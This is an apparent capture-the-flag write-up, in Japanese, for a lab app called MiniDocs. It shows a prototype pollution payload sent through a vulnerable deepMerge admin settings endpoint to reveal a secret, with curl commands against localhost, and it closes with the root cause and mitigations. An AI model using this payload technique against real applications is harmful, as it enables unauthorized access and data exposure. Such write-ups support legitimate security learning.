 # MiniDocs — Prototype Whisper

## 解法（簡易版）

1. 管理者でログイン後右上のadminを押下 
2. `{"featureFlags":{"__proto__":{"revealSecret":true}}}` を送信し、**prototype 汚染**で `revealSecret` を有効化。  
3. 画面下部の`secretPreview` が `<FLAG_PP>` に変化したことを確認。

## 解法(詳細)

### 1) `admin`から管理者画面へ
- **前提**：管理者でログイン済み（IDOR で入手したパスワードを使用）。
- **URL欄**：`http://127.0.0.1:8000/admin`
- 管理画面中部 **「設定変更」** に `patch (JSON)` テキストエリアと **Apply** ボタンがある。

### 2) ヒント
- **bob の勉強メモ**（例：`doc-bo-0002` *「勉強メモ: 配列のマージ処理」*）に **deep merge（deepmerge）** という語が登場し、
  さらに `doc-bo-0004` *「勉強メモ: 機能フラグの管理」* で **`featureFlags` というトップレベルキー**が示唆される。
- **admin の運用メモ**（例：`doc-ad-0002` *「設定っぽいもの」*）には、**画面から設定を入れる**旨と
  **`{"limits":{"maxDoc":100}}` のような JSON 例**が書かれている。
- 管理者画面の**「現在の設定」**にavailableFeatureFlagsに複数使用できる設定があり、その中に**revealSecret**がある。
  Secretとあるので使用怪しい。
- これらから、**設定の“パッチ”は JSON で送り、受理されるルートは `limits` / `featureFlags`** と推測できる。
  ただし **`revealSecret` は UI からは直接いじれない**（＝“システム専用”らしい）ため、**別の経路（PP）**が必要だと分かる。

### 3) 送信ペイロード
```json
{"featureFlags":{"__proto__":{"revealSecret":true}}}
```
- **狙い**：脆弱な `deepMerge` が **`__proto__` をそのまま潜る**ため、`Object.prototype.revealSecret = true` が汚染される。 

### 4) 送信後の画面変化と `<FLAG_PP>` の確認箇所
1. 管理画面下部 **「現在の設定」** の内容に注目：  
   - `secretPreview` が **`"(hidden)" → "<FLAG_PP>"`** へ変化している。  
   - ここに `<FLAG_PP>` が可視化される。

### つまずきポイント / 代替ルート
- **直接指定は無効**：`{"featureFlags":{"revealSecret":true}}` は受理されても**削除**され効果なし。`__proto__` 経由のみ成功。

---

## 付録：curl 参考
> 先に **admin** でログインして Cookie を取得しておくこと。フラグの実文字列は表示しない。

```bash
# 1) admin でログイン
curl -s -c c.txt -d 'user=admin&pass=<hidden>' http://127.0.0.1:8000/login > /dev/null

# 2) __proto__ 汚染を JSON で適用（/admin/feature-flags）
curl -s -b c.txt -H 'Content-Type: application/json'   -d '{"featureFlags":{"__proto__":{"revealSecret":true}}}'   http://127.0.0.1:8000/admin/feature-flags > /dev/null

# 3) Diagnostics で secretPreview の露出を確認
curl -s -b c.txt http://127.0.0.1:8000/admin | grep -A2 '"secretPreview"'   # => "<FLAG_PP>"
```

---

## 根本原因と対策（Prototype Pollution）
- **原因**：再帰マージ `deepMerge` が **`__proto__`/`prototype`/`constructor`** を**ブロックせず**に潜るため、`Object.prototype` が汚染される。UI 側も `ownProperty` 判定をせず参照。  
- **対策（最小）**：
  - ① マージ前に **危険キー拒否**（`['__proto__','prototype','constructor']` を除去）。  
  - ② ライブラリ利用時は **proto 汚染無効化オプション**を有効化。  
  - ③ 参照側も **`Object.hasOwn` / `hasOwnProperty`** で自前プロパティのみ採用する二重防御。

